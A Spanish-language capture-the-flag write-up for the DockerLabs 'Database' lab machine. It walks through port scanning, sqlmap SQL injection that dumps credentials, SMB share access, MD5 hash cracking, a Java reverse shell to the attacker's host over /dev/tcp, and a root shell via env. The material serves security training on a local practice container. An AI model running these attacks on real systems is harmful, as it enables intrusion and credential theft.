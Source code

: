 ```yaml
---
layout: post
title: Maquina Database
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/database-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  SQL Injection
  -  SMBMap
  -  Escalado de privilegios
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** Database
- **Plataforma:** [DockerLabs](https://dockerlabs.es/)
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** `Medio`{:.warning}

#### **Configuración Entorno**
Primeramente, como siempre para configurar las máquinas de DockerLabs, exportamos los ficheros auto_deploy.sh y en este caso pinguinazo.tar.
Para ejecutarlo utilizamos el siguiente comando:
```bash
sudo bash auto_deploy.sh pinguinazo.tar
```
![Image 1](https://aanton94.github.io/blog/img/posts/dl/database/img1.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y, una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**database.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la máquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 2](https://aanton94.github.io/blog/img/posts/dl/collections/img2.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.
Una vez comprobada la conectividad, iniciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:
```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn 172.17.0.2 -oN scan
```
- **-p-** --> Búsqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rápido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la versión del servicio abierto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya más rápido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)
![Image 3](https://aanton94.github.io/blog/img/posts/dl/database/img3.png)


Vemos que tiene abiertos los puertos **22 (ssh)**, **80 (http)** y los puertos **139 y 445 (SMB)**.

#### **Explotación**
Lo primero que hacemos es acceder vía web por el puerto 80.
![Image 4](https://aanton94.github.io/blog/img/posts/dl/database/img4.png)

Nos encontramos con un login.
Utilizaremos gobuster para hacer fuzzing web y intentar encontrar directorios o archivos.
![Image 5](https://aanton94.github.io/blog/img/posts/dl/database/img5.png)

No encontramos nada relevante, por tanto, nos centraremos en el login que tenemos. Probamos a realizar sql injection para ver si el login es vulnerable a este tipo de ataques. Para ello utilizaremos la herramienta **SQLMap**.

Comenzamos con el siguiente comando para intentar descubrir las bases de datos:
```bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch 
```
![Image 8](https://aanton94.github.io/blog/img/posts/dl/database/img8.png)

Vemos una tabla llamada **register** que podría contener credenciales o usuarios de nuestro interés. Trataremos de ver las tablas que contiene esa base de datos.
```bash
sqlmap -u http://172.17.0.2/index.php --forms -D register  --tables –batch
```
![Image 9](https://aanton94.github.io/blog/img/posts/dl/database/img9.png)

Tenemos la tabla users, trataremos de ver la información que contiene esta tabla.
```bash
sqlmap -u http://172.17.0.2/index.php --forms -T users  --cols --batch  
```
![Image 10](https://aanton94.github.io/blog/img/posts/dl/database/img10.png)

Tenemos una columna **passwd** y **username**. Para visualizar el contenido utilizamos el siguiente comando.
```bash
sqlmap -u http://172.17.0.2/index.php --forms -C username,passwd --dump  --batch 
```
![Image 11](https://aanton94.github.io/blog/img/posts/dl/database/img11.png)

Encontramos el usuario **dylan** y su contraseña. Si tratamos de acceder, nos lo permite, pero al acceder no vemos nada destacable. También tratamos de acceder vía **SSH** por el puerto 22, y tampoco tenemos suerte!!!

Visto que por estas vías no logramos avanzar, trataremos de atacar a los puertos abiertos de **SMB**, para ello utilizaremos la herramienta **SMBMAP**.
![Image 12](https://aanton94.github.io/blog/img/posts/dl/database/img12.png)

Encontramos una carpeta compartida llamada **shared**, trataremos de conectarnos con el usuario encontrado anteriormente.
![Image 13](https://aanton94.github.io/blog/img/posts/dl/database/img13.png)

Nos descargamos el archivo que hemos encontrado y realizamos un cat para visualizarlo, nos encontramos con un codigo en MD5, por lo tanto para poder descifrarlo utilizaremos **hascat**.
```bash
hashcat -m 0 -a 0 061fba5bdfc076bb7362616668de87c8 /usr/share/wordlists/rockyou.txt
```
![Image 14](https://aanton94.github.io/blog/img/posts/dl/database/img14.png)

Con el usuario **august** y la contraseña que hemos encontrado sí que logramos estableces una conexión vía **SSH**.
![Image 15](https://aanton94.github.io/blog/img/posts/dl/database/img15.png)

Una vez dentro de la máquina, trataremos de lograr escalar privilegios.
![Image 16](https://aanton94.github.io/blog/img/posts/dl/database/img16.png)

Si hacemos un sudo -l vemos que podemos ejecutar el binario java como dylan y así poder escalar a su usuario.
Vamos a crear un script en java para que nos mande una reverse shell con el usuario dylan.

```java
public class Shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/4444 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```
En nuestra maquina atacante, nos ponemos en escucha por el puerto 4444 con NetCat.
![Image 18](https://aanton94.github.io/blog/img/posts/dl/database/img18.png)

Recibimos la shell con el usuario dylan, no nos deja ejecutar sudo -l, por lo tanto buscamos los binarios.
![Image 19](https://aanton94.github.io/blog/img/posts/dl/database/img19.png)

Consultamos [https://gtfobins.github.io/](https://gtfobins.github.io/) para encontrar una manera de elevar privilegios con env. Luego, ejecutamos el siguiente comando:
```bash
env /bin/bash -p
```
![Image 20](https://aanton94.github.io/blog/img/posts/dl/database/img20.png)

¡¡¡¡Así que, hemos conseguido ser `root`{:.success}!!!! 

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.

![Image 21](https://aanton94.github.io/blog/img/posts/dl/database/img21.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
